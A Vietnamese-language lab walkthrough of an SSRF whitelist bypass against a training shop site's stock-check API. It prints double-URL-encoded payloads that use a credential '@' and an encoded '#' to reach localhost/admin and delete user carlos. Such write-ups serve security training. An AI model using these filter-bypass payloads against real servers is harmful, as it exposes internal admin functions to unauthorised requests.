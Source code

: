## SSRF with whitelist-based input filter

Mục đích của lab này chúng ta phải pass qua Whitelist

Bắt lại request checkStock và thay value của apiStock thành localhost sẽ bị ăn error như này. 

Có vẻ như web bắt buộc chúng ta phải bắt đầu bằng ***stock.weliketoshop.net***

![](/imgs/CSRF/13.png?raw=true)

Đổi lại như vậy thì lại ăn ngay lỗi mới

![](/imgs/CSRF/14.png?raw=true)

Cho đến khi test thử

```markdown
**stockApi=http://localhost%25%32%33@stock.weliketoshop.net/admin** (stockApi=http://localhost#@stock.weliketoshop.net/admin)
```

![](/imgs/CSRF/15.png?raw=true)

**Đây là cấu trúc một URL API mà dựa vào đó mà ta có thể khai thác cách phân tích URL của một máy chủ**
***scheme://user:pass@host:port/path?query=value#fragment***

**Thêm thông tin đăng nhập vào URL trước hostname / Sử dụng # để chỉ ra nội dung của mục con**

![](/imgs/CSRF/16.png?raw=true)

Tiến hành xóa user carlos bằng

```markdown
**stockApi=http://localhost%25%32%33@stock.weliketoshop.net/admin/delete?username=carlos**
```

![](/imgs/CSRF/17.png?raw=true)

### Tài liệu tham khảo
- [Public API:](https://yarl.readthedocs.io/en/latest/api.html) 